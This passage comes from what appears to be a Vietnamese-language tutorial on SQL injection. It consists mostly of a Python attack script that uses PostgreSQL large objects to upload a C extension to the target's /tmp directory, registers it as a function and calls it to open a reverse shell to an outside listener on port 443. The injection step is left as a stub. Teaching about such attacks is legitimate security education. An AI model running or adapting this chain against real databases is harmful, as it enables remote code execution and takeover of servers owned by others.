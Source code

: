 Để tự động hóa quy trình này, bạn có thể sử dụng một script Python như sau:

```python
import requests
import random
import string
import math

# Các tham số cho reverse shell
LHOST = "192.168.0.122"
LPORT = 443

# Sinh chuỗi ngẫu nhiên
def randomString(N):
    return ''.join(random.choices(string.ascii_letters + string.digits, k=N))

# Inject SQL để thực thi câu lệnh
def sqli(q):
    # TODO: Sử dụng SQL Injection để thực thi câu lệnh q
    pass

# Upload extension
with open("pg_rev_shell.so", "rb") as f:
    raw = f.read()

# Tạo large object và upload pg_rev_shell.so
loid = random.randint(50000, 60000)
sqli(f"SELECT lo_create({loid});")
print(f"[*] Đã tạo large object với ID: {loid}")

for pageno in range(math.ceil(len(raw)/2048)):
    page = raw[pageno*2048:pageno*2048+2048]
    print(f"[*] Đang tải trang {pageno}, độ dài: {len(page)}")
    sqli(f"INSERT INTO pg_largeobject (loid, pageno, data) VALUES ({loid}, {pageno}, decode('{page.hex()}','hex'));")

# Kích hoạt reverse shell
query  = f"SELECT lo_export({loid}, '/tmp/pg_rev_shell.so');"
query += f"SELECT lo_unlink({loid});"
query += "DROP FUNCTION IF EXISTS rev_shell;"
query += "CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;"
query += f"SELECT rev_shell('{LHOST}', {LPORT});"
print(f"[*] Đang ghi pg_rev_shell.so vào đĩa và kích hoạt reverse shell (LHOST: {LHOST}, LPORT: {LPORT})")
sqli(query)
```

**Lưu Ý**: Script này tự động tải lên tệp extension C, tạo large object, và thực thi reverse shell.

---

# 11. Cách Ngăn Chặn Lỗ Hổng SQL Injection

